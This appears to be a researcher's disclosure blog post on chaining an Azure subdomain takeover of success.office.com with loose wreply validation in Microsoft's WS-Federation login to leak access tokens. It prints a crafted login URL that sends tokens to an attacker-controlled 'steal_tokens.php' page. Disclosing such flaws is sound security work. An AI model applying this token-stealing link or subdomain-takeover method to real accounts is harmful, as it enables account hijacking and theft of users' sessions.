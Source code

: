 ```yaml
---
layout: post
title: Leaking access tokens from Microsoft apps chaining two vulnerabilities
---
```


---




### First Issue:

During the initial recon I retrieved the list of all possible subdomains of office.com pointing to many Azure instances. One of them was success.office.com which was not getting resolved to any IP address, but had a CNAME pointing to an Azure web app instance `successcenter-msprod`. 
Chances are that you can takeover an Azure instance if the domain is not getting resolved to it. So I tried to create a web app with the name `successcenter-msprod` in my Azure portal
and it was accepted as a valid name. In other words, the previous instance with that name had been removed and is now free.
Which basically means, whatever we host on `successcenter-msprod`; `success.office.com` would point to it as the CNAME record specifies. 

### Second Issue:

Microsoft uses WS Federation for it's implementation of a centralized login system for most of the applications including Outlook, Sway, Microsoft Store etc. WS Fed is similar to Oauth. 
`wreply` in WS Fed is the counterpart of `redirect_url` in Oauth. If you read about Nir Goldshlager's <a href="http://nirgoldshlager.blogspot.com/">Facebook Oauth bug series</a>, you will understand
the dangers of not using an exact URL match (or not properly validating) for wreply or redirect_url wherever possible. Here in this case, Microsoft 
was allowing any subdomains of office.com (*.office.com) to be a valid wreply URI. 


Since one of their subdomain was in my control, I could use the domain as a valid `wreply` url and was able to leak the access tokens:

`https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1529775349
&rver=6.7.6643.0&wp=MBI_SSL&wreply=https://success.office.com/steal_tokens.php
&lc=1033&id=292666&lw=1&fl=easi2&pcexp=true&uictx=me`

Basically, if any user who has already been authenticated (or going to authenticate), "clicked" on a crafted link with the above changes, the tokens would get leaked and this token can be exchanged for a session token and subsequently an account takeover would result.

In the below screenshot, you can find the tokens getting leaked to the server I control:

<img src="https://raw.githubusercontent.com/sahadnk72/sahadnk72.github.io/master/files/outlook.jpg" />
<a href="https://www.safetydetective.com/blog/microsoft-outlook/"></a>

### Media Coverage:

This finding has gained some media attention. A few of them are listed below:

#### NDTV: <a href="https://www.ndtv.com/kerala-news/kerala-based-security-engineer-spots-bug-in-microsoft-office-365-outlook-1961352" target="_blank">Link</a>
#### TechCrunch: <a href="https://techcrunch.com/2018/12/11/microsoft-login-bug-hijack-office-accounts/" target="_blank">Link</a>
#### MensXP: <a href="https://www.mensxp.com/technology/hacks/48785-a-kerala-based-engineer-uncovered-a-bug-that-could-expose-more-than-40-crore-microsoft-accounts.html" target="_blank">Link</a>
#### Mashable: <a href="https://mashable.com/article/microsoft-account-takeover-vulnerability" target="_blank">Link</a>
#### IndiaTimes: <a href="https://www.indiatimes.com/technology/news/this-young-hacker-from-kerala-found-a-microsoft-bug-saving-the-account-data-of-40-crore-users-358466.html" target="_blank">Link</a>

